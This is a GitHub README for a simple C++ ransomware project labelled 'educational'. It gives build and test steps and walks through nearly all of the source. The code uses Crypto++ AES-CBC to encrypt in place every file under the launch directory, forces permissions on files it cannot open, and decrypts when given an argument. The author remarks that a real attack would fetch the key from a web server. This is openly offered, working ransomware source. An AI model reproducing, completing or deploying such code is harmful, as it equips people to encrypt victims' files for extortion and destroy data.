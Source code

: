 ## About
- **TESTED ON ARCH LINUX ONLY**
- **INTENDED FOR EDUCATIONAL PURPOSES ONLY.**
- This ransomware is a very simple program that encrypts instead of a whole drive only recursively files from the folder it was
started from.
- It is very heavy on processor and even if I managed to lower RAM usage it's still not perfect.

## Requirements
- `crypto++` C++ library for `ransomware.cpp`.
- `wget`, `dd` and `yes` for `maketest.sh`.
- `gcc` for build.

## Build
1. `git clone https://github.com/ErnestNoga/ransomware`
2. `cd ransomware`
3. `mkdir build`
4. `cd build`
5. `cmake ..`
6. `make`  
After all these steps are completed you should have file called `ransomware` in current folder, it is an executable
that will encrypt all files recursively from the folder it was launched from.

## Testing
If you wish to see how the ransomware works in practice then this part is for you.  
1. `cd` into the cloned repository folder after it was [built](https://github.com/ErnestNoga/ransomware#user-content-build).
2. `./maketest.sh` and wait. This will take a long time.
3. `cd test`
4. Now go through all files and see their unencrypted values. **TIP:** use `cat ./<FILE_NAME>` when reading files in `weird_names` directory.
When checking `a_lot_of_dirs` use `for` loop to enter directories inside.
example in bash: `for i in {1..100..1}; do cd $i; done`. When exiting the directory use the same for loop but change `$i`
to `..`.
5. Now enter once again the main test directory
6. `../build/ransomware`and wait again this too will take a long time depending on the processing power of your PC.
7. Now inspect the files again to see their encrypted versions.
8. Go back to main test directory.
9. `../build/ransomware 1` and wait for files to decrypt. `1` can be replaced by any other argument only thing that matters
is that total argument number won't be less than 2.
10. Check files once again and see their decrypted values. It should be the same.

## Walkthrough
This part of README.md will be focused on explaining how ransomware works

> ### Imports
>>These are imports of this program, all the ones beginning with `cryptopp` belong to `crypto++` library which is used for encryption itself.
>> You can remove some of those imports without breaking the code because they are already imported by some header files included before, 
>> but I felt I should leave them there anyway for clarity's sake.
>>```c++
>> #include <cryptopp/aes.h>
>> #include <cryptopp/files.h>
>> #include <cryptopp/modes.h>
>> #include <cryptopp/channels.h>
>> 
>> #include <experimental/filesystem>
>> #include <string>
>> #include <sys/stat.h>
>>```  

> ### Custom namespaces
>> This line of code shortens `std::experimental::filesystem` namespace to `fs`.
>> ```c++
>> namespace fs = std::experimental::filesystem;
>> ```

> ### Encrypt function
>>This `void encrypt` function is defined as `void` since it does not return anything,
it requires two arguments: `filename` which is path of the file to encrypt and reference to `pwd` which is passphrase used to encrypt the file.
>> ```c++
>> void encrypt(const char filename[], const std::string &pwd)
>> ```
>>
>> First we define `temp_filename` variable which will be the name of temporary file that `encrypt` function will be writing encrypted data to.
>> ```c++
>> const char temp_filename[] = "temp";
>> ```
>> 
>> This `try .. catch` catches OpenErr which usually means incorrect permission and then sets correct ones.
>> Next `catch` catches all `CryptoPP::Exception` and removes temporary file.
>> ```c++
>> try {
>>    ...
>> } catch (CryptoPP::FileStore::OpenErr &err) {
>>     std::cerr << err.what() << std::endl;
>>     chmod(filename, S_IRWXU);
>>     encrypt(filename, pwd);
>> } catch (CryptoPP::Exception &err) {
>>     fs::remove(temp_filename);
>> }
>> ```
>> 
>> Next line of `encrypt` function prints information about current file that is being encrypted 
>> ```c++
>> std::cout << "Encrypting: " << filename << std::endl;
>> ```
>>
>>
>> After that we create `iv` array of `CryptoPP::byte` which will be our initialization vector with size of 16 and set all of its indexes to `0x01` byte
>> ```c++
>> CryptoPP::byte iv[16];
>> memset(iv, 0x01, 16);
>> ```
>>
>> Next we define our `encryptor` object which requires three arguments: array of CryptoPP::byte as passphrase, passphrase
>> length and initialization vector. We specify AES CBC mode.
>> ```c++
>> CryptoPP::CBC_Mode<CryptoPP::AES>::Encryption encryptor((CryptoPP::byte*)&pwd[0], pwd.size(), iv);
>> ```
>>
>> Next we create `filter` object which requires three arguments: stream transformer which will be used to transform data
>> put into it
>> and unnamed `CryptoPP::FileSink` object which is basically the destination file. After that we create `channel_switch` object
>> used for optimization, and we add to it default route through `filter`
>> ```c++
>> CryptoPP::StreamTransformationFilter filter(encryptor, new CryptoPP::FileSink(temp_filename));
>> CryptoPP::ChannelSwitch channel_switch;
>> channel_switch.AddDefaultRoute(filter);
>> ```
>>
>> Then we create two `CryptoPP::FileSource` objects: first one pumps all our data through filter, second one will move encrypted
>> data to original file. Both of these objects require three arguments: source file, whether to read and process all data, and
>> `CryptoPP::BufferedTransformation` object such as filter or sink. I could have also just renamed the temporary file, 
>> but that would cause the original file to lose all permissions it previously had.
>> ```c++
>> CryptoPP::FileSource(filename, true, new CryptoPP::Redirector(channel_switch));
>> CryptoPP::FileSource(temp_filename, true, new CryptoPP::FileSink(filename));
>> ```
>>
>> After that remove our temporary file.
>> ```c++
>> fs::remove(temp_filename);
>> ```

> ### Decrypt function
>> `decrypt` function is basically the same as `encrypt` just that the `CryptoPP::CBC_Mode<CryptoPP::AES>::Encryption` is changed to
>> `CryptoPP::CBC_Mode<CryptoPP::AES>::Decryption` and some variable names, so I'm not going to waste both of our time explaining it.

> ### Main function
>> This is standard definition of main function in both c and c++, `int argc` is argument count, and `char **argv` is
>> array of arguments.
>> ```c++
>> int main(int argc, char **argv)
>> ```
>>
>> This is creation of pwd string variable it is created with const keyword because it will not be changed. During
> real attack we would download passphrase from web server or use some other way to make it unreadable from compiled file.
>> ```c++
>> const std::string pwd = "12345678901234567890123456789012";
>> ```
>> 
>> `if` statement checks if argument count is 1, because if it is then we can be sure that only executable path was given.
>> If `argc == 1` then it starts for loop iterating through contents of current directory recursively, and if the path
>> of current iteration isn't a directory then it encrypts it. In the case where `argc != 0` then it instead decrypts
> the files.
>> ```c++
>> if (argc == 1) {
>>    for (const fs::directory_entry &i : fs::recursive_directory_iterator("."))
>>       if (!fs::is_directory(i.path()))
>>          encrypt(i.path().string().c_str(), pwd);
>>       } else {
>>    for (const fs::directory_entry &i : fs::recursive_directory_iterator("."))
>>       if (!fs::is_directory(i.path()))
>>          decrypt(i.path().string().c_str(), pwd);
>>    }
>> }
>> ```

